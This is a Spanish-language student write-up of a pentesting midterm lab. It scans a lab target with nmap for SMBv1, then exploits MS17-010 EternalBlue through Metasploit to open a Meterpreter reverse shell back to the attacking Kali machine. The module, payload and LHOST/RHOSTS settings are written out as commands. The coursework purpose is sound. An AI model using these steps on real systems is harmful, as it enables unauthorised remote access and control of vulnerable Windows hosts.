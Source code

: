```yaml
---
title: EXAMEN PARCIAL
date: 2024-03-11 18:10:00 -05:00
categories: [Reconnaisance, Kill Chain, Pentesting]
tags: [nmap, kali, metasploit]  # TAG names should always be lowercase
---
```



# RESOLUCION DE EXAMEN PARCIAL

para iniciar con nuestro laboratorio tenemos que :
para nuestra maquina kalilinux: 10.0.2.9
para nuestra maquina metasploit: 10.0.2.4
![virtual](/assets/images/virtual.png)

con ello podremos realizar nuestro primer paso:

1. Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
```bash 
        nmap -sV -p- -oA smb_scan 10.0.2.4.
```


donde:
- -sV: Realiza una detección de versión de los servicios.
- -p-: Escanea todos los puertos, del 1 al 65535.
- -oA smb_scan: Guarda los resultados del escaneo en archivos con el prefijo 
"smb_scan".
- 10.0.2.4: es la IP de nuestra victima.

![dos](/assets/images/dos.png)

 
obteniendo como respuesta la siguiente imagen:
![tres][def]

[def]: /assets/images/tres.png

por lo que averiguo un poco mas sobre el SMBv1 y ejecuto este otro comando:
```bash 
        nmap -p 139,445 --script=smb-protocols <10.0.2.4>
```
explicando un poco a lo averiguado:
- los puertos 139 y 445 son los puertos asociados con el servicio SMB.
- El flag --script=smb-protocols indica a Nmap que utilice el script "smb-protocols" para enumerar los protocolos SMB habilitados en el servidor.
- Al analizar la salida del comando, busco específicamente el término "SMBv1" o "NT LM 0.12" en la lista de protocolos SMB detectados.
- Si veo una línea que indica "SMBv1: Enabled" o "NT LM 0.12: Supported", entonces puedo confirmar que el servicio SMBv1 está habilitado en el servidor objetivo.

gracias a la ayuda del tip brindado, y obtengo la siguiente respuesta:
![cuatri](/assets/images/cuatro.png)

explicando un poco mas lo encontrado respecto al comando de nmap en los puertos 139,445. Segun lo que muestra estos puertos estan abiertos, el puerto 139/tcp es un servicio netbios -ssn, el puerto 445/tcp es un servicio microsoft-ds y estos puertos estan asociados con el servicio SMB.

smb-protocols fue utilizado para enumerar los protocolos SMB habilitados, el resultado muestra que el protocolo NT LM 0.12 o SMBv1 esta presente, y se lo describe como peligroso pero esta como predeterminado. Esto indica que el servidor tiene habilitado el servicio SMBv1 que en un principio se habia habilitado segun las indicaciones del docente. Algo adicional que se podria indicar es que el escaneo se completo en 0.22 segundos.

2. segun los resultados del escaneo con NMAP, el servidor objetivo tiene habilitado el servicio SMBv1, lo cual lo hace vulnerable a diversos ataques, entre ellos el exploit eternalBlue MS17-010.

* segun su tip, para explotar esta vulnerabilidad utilizaremos el framework metasploit y seleccionare el modulo:
```bash 
        exploit/windows/smb/ms17_010_eternalblue
```
## pasos
 para ejecutar el modulo entraremos primero a metasploit con el comando 
 ```bash 
        msfconsole -q
```

luego usaremos el modulo:
```bash 
        use exploit/windows/smb/ms17_010_eternalblue
```
donde configuraremos los parametros necesarios para el exploit, por ejemplo:
- set RHOSTS 10.0.2.4
- set LHOST 10.0.2.9
- set RPORT 445

![cinco](/assets/images/cinco.png)

![seis](/assets/images/seis.png)

explicando un poco lo que se ha realizado, es que este modulo aprovecha la vulnerabilidad CVE-2017-0143, conocida como EternalBlue, que afecta a la implementacion del protocolo SMBv1 en sistemas Windows. Esta vulnerabilidad permite ejecutar el codigo arbitrario en el sistema objetivo a traves de un desbordamiento de bufer en el procesamiento de paquetes SMB maliciosos.

Al ejecutar este modulo, metasploit enviara los payloads SMB necesarios para explotar esta vulnerabilidad y establecer una conexion de reverse shell desde el sistema objetivo hacia nuestra maquina atacante. Esto permitira obtener acceso remoto y control sobre el sistema objetivo.

![siete](/assets/images/siete.png)

segun la respuesta de este modulo se puede apreciar que metasploit identifica que el servidor objetivo 10.0.2.4 es vulnerable a MS17-010 EternalBlue, que afecta a windows.
se establece una conexion con el servidor objetivo para realizar la explotacion, una vez realizada esta conexion se procede a un volcado del bufer de memoria cruda del servidor, se envian los payload SMB maliciosos para explotar la vulnerabilidad. 
La expotacion se completa con exito, indicado por la salida ETERNALBLUE overwrite completed successfully, posterior a ello se envia una señal de control a la conexion corrupta. 

adicionalmente indico un tip el cual era realizar un payload, este "windows/x64/meterpreter/reverse_tcp", nos permite obtener una seseion de meterpreter despues de que el exploit sea ejecutado con exito. Este establecere una conexion de reverse shell.

![ocho](/assets/images/ocho.png)

una vez generado este exploit procedo a documentar primero la sesion meterpreter en la maquina victima si el ataque es exitoso.

![nueve](/assets/images/nueve.png)

para mi caso el mensaje de salida de metasploid indica que, METERPRETER SESION 2 OPENEDED 10.0.2.9:4444   10.0.2.4:49279  2024-11-03 a las 16:25:03 -8


![nueve](/assets/images/nueve.png)

esto confirmaria que la explotacion fue exitosa y se establecio una sesion de meterpreter en la maquina atacante y el servidor objetivo.


